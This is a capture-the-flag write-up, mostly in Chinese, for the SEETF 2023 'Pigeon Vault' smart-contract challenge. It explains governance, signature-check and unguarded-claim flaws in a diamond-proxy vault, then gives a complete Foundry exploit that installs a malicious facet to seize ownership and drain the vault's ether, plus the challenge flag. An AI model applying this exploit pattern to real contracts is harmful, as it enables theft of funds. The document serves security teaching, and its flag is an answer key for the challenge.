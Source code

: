 ```yaml
---
title: Blockchain - Pigeon Vault
description: 2023 | SEETF | Smart Contracts
tags:
    - smart contract
    - diamond
    - proxy
    - data validation
    - ecrecover
---
```


## 题目

rainbowpigeon has just received a massive payout from his secret business, and he now wants to create a secure vault to store his cryptocurrency assets. To achieve this, he developed PigeonVault, and being a smart guy, he made provisions for upgrading the contract in case he detects any vulnerability in the system.

Find out a way to steal his funds before he discovers any flaws in his implementation.

Blockchain has a block time of 10: https://book.getfoundry.sh/reference/anvil/

> nc win.the.seetf.sg 8552

[:material-download: `pigeon_vault.zip`](static/pigeon_vault.zip)

## 解题思路

- 需要成为 diamond 合约的所有者且持有不少于 3000 ether (即清空 `pigeonDiamond` 的余额)

    ```js
    function isSolved() external view returns (bool) {
        return (IOwnershipFacet(address(pigeonDiamond)).owner() == msg.sender && msg.sender.balance >= 3000 ether);
    }
    ```

- `PigeonDiamond` 采用了 Diamond Storage 和 App Storage 混合的存储模式
- 先了解一下应用层面切面的功能
    - `DAOFacet`
        - `submitProposal()` 由于 `isUserGovernance()` 阈值设置存在问题，任意用户可以提交操作切面的提案

            ```js
            function isUserGovernance(address _user) internal view returns (bool) {
                uint256 totalSupply = s.totalSupply;
                uint256 userBalance = LibDAO.getCurrentVotes(_user);
                uint256 threshold = (userBalance * 100) / totalSupply;
                return userBalance >= threshold;    // If userBalance equals 0, then the threshold is 0 and satisfies this condition
            }
            ```

        - `executeProposal()` 执行指定提案
            - 提案的 `forVotes` 需要大于 `againstVotes` 以及十分之一的 `totalSupply`
        - `castVoteBySig()` 验证签名并为提案投票
            - 只检查 `signer` 不为 `address(0)`，因此可以是无效签名
            - 票数为 `msg.sender`（而不是 `signer`）在 `proposal.startBlock` 前最后一次记录的票数

    - `FTCFacet` FeatherCoin，与 [Diamond Heist](./diamond_heist.md#解题思路) 类似的模式
    - `OwnershipFacet` 使用 Diamond 存储模式管理 `contractOwner`
    - `PigeonVaultFacet`
        - `emergencyWithdraw()` owner 可以取出合约所有的 ether

- 另外，在 `Setup` 中，由于没有更新 `claimed`，任何人可以调用任意次 `claim()` 来获得 `FTC`

    ```js
    function claim() external {
        require(!claimed, "You already claimed");

        bool success = IERC20(address(pigeonDiamond)).transfer(msg.sender, 10_000 ether);
        require(success, "Failed to send");
    }
    ```

- 比较简单直接的方法是调用 11 次 `claim()` 来获取达到执行提案阈值的票数，也可通过 `castVoteBySig()` 进行多次投票

### Exploit

```js
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import "../src/Setup.sol";
import "../src/libraries/LibDiamond.sol";
import "../src/interfaces/IDAOFacet.sol";

interface IFTCFacet {
    function delegate(address _delegatee) external;
}

contract HackFacet {
    function exploit(address player) external {
        LibDiamond.setContractOwner(player);
        payable(player).transfer(address(this).balance);
    }
}

contract SolveTest is Test {

    Setup setup;
    address pigeonDiamond;

    uint constant privKey = 0xdead;
    address immutable hacker = vm.addr(privKey);

    function setUp() public {
        setup = new Setup{value: 3000 ether}();
        pigeonDiamond = address(setup.pigeonDiamond());
    }

    function testSolve() public {
        vm.startPrank(hacker);

        address hackFacet = address(new HackFacet());
        bytes4[] memory selectors = new bytes4[](1);
        selectors[0] = bytes4(keccak256("exploit()"));
        IDiamondCut.FacetCut memory diamondCut = IDiamondCut.FacetCut({
            facetAddress: hackFacet,
            action: IDiamondCut.FacetCutAction.Add,
            functionSelectors: selectors
        });

        IFTCFacet(pigeonDiamond).delegate(hacker);
        for (uint8 i; i < 11; ++i) {
            setup.claim();
        }

        uint proposalId = IDAOFacet(pigeonDiamond).submitProposal(hackFacet, abi.encodeWithSignature("exploit(address)", hacker), diamondCut);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privKey, keccak256("\x19Ethereum Signed Message:\n32"));
        bytes memory signature = abi.encodePacked(r, s, v);

        vm.roll(2);

        IDAOFacet(pigeonDiamond).castVoteBySig(proposalId, true, signature);

        vm.roll(10);

        IDAOFacet(pigeonDiamond).executeProposal(proposalId);
        
        assert(setup.isSolved());
        vm.stopPrank();
    }
}
```

### Flag

> SEE{D14m0nd5_st0rAg3_4nd_P1g30nS_d0n’t_g0_w311_t0G37h3r_B1lnG_bl1ng_bed2cbc16cbfca78f6e7d73ae2ac987f}